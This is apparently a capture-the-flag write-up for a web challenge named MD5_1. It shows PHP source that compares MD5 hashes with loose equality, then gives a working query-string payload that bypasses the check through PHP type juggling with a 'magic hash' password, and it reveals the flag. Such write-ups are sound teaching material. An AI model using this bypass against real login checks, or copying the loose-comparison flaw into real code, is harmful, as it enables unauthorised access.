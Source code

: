 # NISRA - MD5_1
###### tags: `NISRA` `CTF` `Web`
Challenge: [MD5_1](http://chall2.nisra.net:41022/)

## Source code
```php=
 <?php
    highlight_file(__FILE__);
    $FROM_INCLUDE = true;
    include("flag.php");
    $msg = "";
    if (isset($_GET['user']) && isset($_GET['password'])) {
        $user = $_GET['user'];
        $password = $_GET['password'];
        $check = "QNKCDZO";
        // the md5 of "QNKCDZO" is 0e830400451993494058024219903391

        if ($user == "admin" && $password != $check && md5($password) == md5($check)) {
            $msg = "Flag: ".$flag;
        } else {
            $msg = "Keep trying!";
        }
    }

    echo $msg;
?> 
```
## Exploit - MD5 Collision
Payload: `http://chall2.nisra.net:41022/?user=admin&password=240610708`
:::spoiler flag
`Flag: NISRA{PhP_is_th3_BeST_laNgUA9E}`
:::

## Reference
[md5('240610708') == md5('QNKCDZO')](https://news.ycombinator.com/item?id=9484757)